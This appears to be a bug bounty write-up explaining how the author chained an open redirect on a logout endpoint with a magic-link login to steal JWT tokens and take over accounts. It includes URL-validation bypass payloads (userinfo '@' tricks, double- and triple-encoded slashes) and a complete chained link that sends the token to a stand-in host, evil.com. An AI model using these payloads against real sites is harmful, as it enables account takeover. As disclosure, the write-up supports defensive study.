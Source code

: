 # Account Takeover Through Open Redirect

## How:

The program had an endpoint that was open to redirection vulnerability. By compining this vulnerability with an authentication functionality I was able to takeover the user
account.

## Open Redirection Vulnerability:

- The application had an endpoint like this ***/logout*** that takes a ***GET*** parameter called ***r***.
- The parameter ***r*** takes an endpoint to be redirected at like this ***/logout?r=/dashboard***.
- So I tried to to put a valid host to see what it does like this ***logout?r=https://program.com/***.
- The application redirected me so, I new that I can play with it to see what else I can get.
- I tried to set the host name to another domain like ***r=https://evil.com/*** and the application responded with ***invalid redirect uri***.
- Knowing this I thought of listing some payloads to try out:<br>
  ***r=https://evil.com/program.com***<br>
  ***r=https://program.com.evil.com***<br>
  ***r=https://program.com@evil.com***<br>
  ***r=https://evil.com@program.com***<br>
  
- The last one was the road to success from this list. However, it's still no redirection because the application will always redirect to itself.
- So at first why we tried these payloads?
  - When I try to find an open redirection I try first to know what url format is allowed or understandable by browsers. So, the meaning of ***https://john@program.com***        is that you are trying to access ***program.com*** as username ***john***. You can try this on firefox or chrome. 
  - So, by knowing this I was thinking what if the developer is using a regex that validates this format and when someone tries to change the value of ***r*** to         ***https://evil.com@program.com*** he validetes it as a valid value because he know that it's the samething. The user will be redirected to program.com at the end too.
  - Another question comes to my head. What is the set of characters allowed before ***@*** I tried to test it on the browser to see what is allowed. And, I have found that the browser when I but an ecnoded value like this ***john%2f*** as username it validtes it and sees it as a valid value. You can try it ***john%2f@google.com***.
  - I tried to set ***r*** to ***https://evil.com%252f@program.com/*** and sent the request. The response successfully redirected me to ***https://evil.com/@program.com/***
  - So, let's break the payload.
    - The application validates this ***john@program.com*** as a valid format.
    - So I tried to inject ***/*** in the payload but doubled encoded like this ***https://evil.com%252f@program.com/***.
    - It's double encoded because If I encoded one time it will reach the web server decoded one time.
    - The payload reaches the code at the other end like this ***https://evil.com%2f@program.com/***.
    - Then the response return the redirection like this ***https://evil.com/@program.com***
    - As you can see the browser will treat ***/@program.com*** as a path to ***https://evil.com*** and the redirection successfully happenes to **evil.com**.
- Another important thing is that the ***/logout*** endpoint sends any get parameter with the new redirection like this **/logout?r=https://evil.com%252f@program.com&heap=heap** the redirection will be like this **https://evil.com/@program.com/?r=https://evil.com%252f@program.com&heap=heap***.


## Exploiting The Login Functionality.

- The applicaiton has a functionality to send you a magic link to login with it. This endpoint takes an ***email*** and ***redirect_uri*** parameters. So, after trying to find a vulnerability with the email I tried to find what I can do with the ***redirect_uri***.
- The ***redirect_uri*** takes a url and the applicaion appends a **JWT** token to it as a GET parameter and sends it to the user.
- So, I tried to play with the hostname of this url to try and find an open redirection but with no clue.
- But, what if can edit the path of the url like this **https://program.com/anypath/anypath** I tried it and sent the request and I looked at my mail I found that the magic link is like this **https://program.com/anypath/anypath?jwt=SOME_VALUE**.
- Okay great, can I compine the this with the open redirection I have found before?. I set the **redirect_uri** to **https://program.com/logout?r=https://evil.com%2525%2532%2566@program.com**.
- And the magic link sent was like this **https://program.com/logout?r=https://evil.com%252f@program.com&jwt=SOME_VALUE**.
- Clicking the link I was redirected to **https://evil.com/?https://evil.com%252f@program.com&jwt=SOME_VALUE**.
- By this, I was able to get the jwt as an attacker and using the jwt I was able to login.
- So the same scenario is done if you want to target another user. You need an email after collecting the jwt you can use it to login to the user's account.


### My Info :

#### Yeswehack  : https://yeswehack.com/user/mekky

#### Intigriti  : https://app.intigriti.com/researcher/profile/mekky

#### Linkedin   : https://www.linkedin.com/in/muhammed-mekkawy-1504821b2/

#### Twitter    : https://twitter.com/Mekky49295157

